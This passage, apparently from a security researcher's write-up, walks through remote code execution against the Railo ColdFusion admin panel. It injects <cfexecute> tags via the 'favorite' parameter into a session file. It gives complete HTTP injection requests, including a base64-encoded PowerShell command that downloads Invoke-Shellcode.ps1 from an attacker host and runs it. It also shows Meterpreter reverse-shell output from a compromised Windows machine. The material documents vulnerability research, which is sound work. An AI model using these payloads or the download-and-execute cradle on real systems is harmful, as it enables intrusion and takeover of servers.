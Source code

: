 ```
GET /railo-context/admin/web.cfm?action=internal.savedata&action2=addfavorite&favorite=<cfoutput><cfexecute name="c:\windows\system32\cmd.exe" arguments="/c dir" timeout="10" variable="output"></cfexecute><pre>#output#</pre></cfoutput> HTTP/1.1
```

Our session file will then read:

```
{'fullscreen':'true','contentwidth':'1267','favorites':{'<cfoutput><cfexecute name="c:\windows\system32\cmd.exe" arguments="/c dir" timeout="10" variable="output"></cfexecute><pre>##output##</pre></cfoutput>':'','server.charset':''}}
```

Whilst our injected data is written to the file, astute readers will note the double # around our Coldfusion variable.  This is ColdFusion's way of escaping a number sign, and will therefore not reflect our command output back into the page.  To my knowledge, there is no way to obtain shell output without the use of the variable tags.

We have two options for popping this: inject a command to return a shell or inject a web shell that simply writes output to a file that is then accessible from the web root.  I'll start with the easiest of the two, which is injecting a command to return a shell.

I'll use PowerSploit's Invoke-Shellcode script and inject a Meterpreter shell into the Railo process.  Because Railo will also quote our single/double quotes, we need to base64 the Invoke-Expression payload:

```
GET /railo-context/admin/web.cfm?action=internal.savedata&action2=addfavorite&favorite=%3A%3Ccfoutput%3E%3Ccfexecute%20name%3D%22c%3A%5Cwindows%5Csystem32%5Ccmd.exe%22%20arguments%3D%22%2Fc%20PowerShell.exe%20-Exec%20ByPass%20-Nol%20-Enc%20aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA2ADoAOAAwADAAMAAvAEkAbgB2AG8AawBlAC0AUwBoAGUAbABsAGMAbwBkAGUALgBwAHMAMQAnACkA%22%20timeout%3D%2210%22%20variable%3D%22output%22%3E%3C%2Fcfexecute%3E%3C%2Fcfoutput%3E%27 HTTP/1.1
```

Once injected, we hit our session page and pop a shell:

```
payload => windows/meterpreter/reverse_https
LHOST => 192.168.1.6
LPORT => 4444
[*] Started HTTPS reverse handler on https://0.0.0.0:4444/
[*] Starting the payload handler...
[*] 192.168.1.102:50122 Request received for /INITM...
[*] 192.168.1.102:50122 Staging connection for target /INITM received...
[*] Patched user-agent at offset 663128...
[*] Patched transport at offset 662792...
[*] Patched URL at offset 662856...
[*] Patched Expiration Timeout at offset 663728...
[*] Patched Communication Timeout at offset 663732...
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.102:50122) at 2014-03-24 00:44:20 -0600

meterpreter > getpid
Current pid: 5064
meterpreter > getuid
Server username: bryan-PC\bryan
meterpreter > sysinfo
Computer        : BRYAN-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Meterpreter     : x86/win32
meterpreter > 
```
